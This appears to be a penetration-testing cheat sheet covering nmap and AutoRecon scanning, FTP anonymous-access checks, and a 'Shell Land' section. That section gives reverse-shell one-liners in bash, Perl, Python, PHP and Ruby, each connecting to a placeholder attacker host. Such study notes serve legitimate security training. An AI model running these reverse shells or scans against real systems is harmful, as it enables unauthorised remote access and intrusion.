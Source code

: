 # Cheatsheet

Tips on automated tools
> These tools help automate nmap/gobuster/nikto etc and doesn't automatically test exploits

## Nmap
[nmapAutomator](https://github.com/21y4d/nmapAutomator) by 21y4d
```
nmapAutomator.sh <TARGET-IP> <TYPE>
                                                      
Scan Types:                                           
        Quick:  Shows all open ports quickly (~15 seconds)                                                  
        Basic:  Runs Quick Scan, then runs a more thorough scan on found ports (~5 minutes)                 
        UDP:    Runs "Basic" on UDP ports (~5 minutes)
        Full:   Runs a full range port scan, then runs a thorough scan on new ports (~5-10 minutes)         
        Vulns:  Runs CVE scan and nmap Vulns scan on all found ports (~5-15 minutes)                        
        Recon:  Suggests recon commands, then prompts to automatically run them                             
        All:    Runs all the scans (~20-30 minutes)   
```
Scan one IP at a time, All scans: nmap quick/udp(if sudo)/allports/vuln script/cve scan, web(Have gobuster+Nikto installed) 

```scss
nmapAutomator $TARGETip All
```

[AutoRecon](https://github.com/Tib3rius/AutoRecon) by Tib3rius
```
usage: autorecon [-h] [-t TARGET_FILE]                                                                             
                 [-ct <number>] [-cs <number>]                                                                     
                 [--profile PROFILE_NAME]                                                                          
                 [-o OUTPUT_DIR] [--single-target]                                                                 
                 [--only-scans-dir]                                                                                
                 [--heartbeat HEARTBEAT]                                                                           
                 [--nmap NMAP | --nmap-append NMAP_APP                                                             END]                                                                                                               
                 [-v] [--disable-sanity-checks]                                                                    
                 [targets [targets ...]]

Network reconnaissance tool to port scan and automatically enumerate services found on multiple
targets.
```
Can very, recommend to do one IP at a time because the VMs can be very slow
```scss
autorecon $TARGETip -o /destinationfile --single-target
```

General Enumeration/Recon with Nmap
```scss
//Initial
nmap -Pn -n -v -oN nmap/Initial $TARGETip

//Partial
nmap -Pn -n -v -p1-500 -oN nmap/partial $TARGETip

//AllPorts
nmap -Pn -n -v -p- -oN nmap/allports $TARGETip

//Targeted, specifiy which -pPORT to target
nmap -Pn -n -v -p22,80,139 -oN nmap/targeted $TARGETip

//UDP
sudo nmap -Pn -n -v -sU -oN nmap/udp $TARGETip

```
## File Transfers (FTP) - Port 21
Nmap recon - see if anonymous access is available
```
nmap -Pn -n -vv -p21 -sV -sC $TARGETip
```

Check with cli connection
```
ftp $TARGETip

ftp> USER anonymous
ftp> PASS anonymous
```
Check with web browse
```
ftp://$TARGETip
```
Upload 
```
ftp> binary
ftp> put file/name
```

## Secure Shell (SSH) - Port 22
## Domain Name System (DNS) - Port 53
## Hypertext Transfer (HTTP/S) - Port 80/443 
## Mail (POP3/SNMP) - Port 110/161 
## File Sharess (NFS|SMB) - Port 2049 | 139/445

## Shell Land
Find a command execution vulnerability -> get an interactive shell

Examples should work cross to the windows platform and subsitute '/bin/sh -i' with 'cmd.exe'

Citing pentestmonkey's blog post:

    If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell. 

    [...] your next step is likely to be either throwing back a reverse shell or binding a shell to a TCP port. 

    Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

### Linux
**Change $ATTACKIP & $PORT**

```scss
//BASH

bash -i >& /dev/tcp/$ATTACKIP/$PORT 0>&1

//PERL

perl -e 'use Socket;$i="$attackip";$p=$port;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'


//PYTHON

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((" $ATTACKIP ",$PORT));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

//PHP

php -r '$sock=fsockopen(" $ATTACKIP ",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

//RUBY

ruby -rsocket -e'f=TCPSocket.open(" $ATTACKIP ",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

//NetCat
//Java
//xterm


```
### Windows

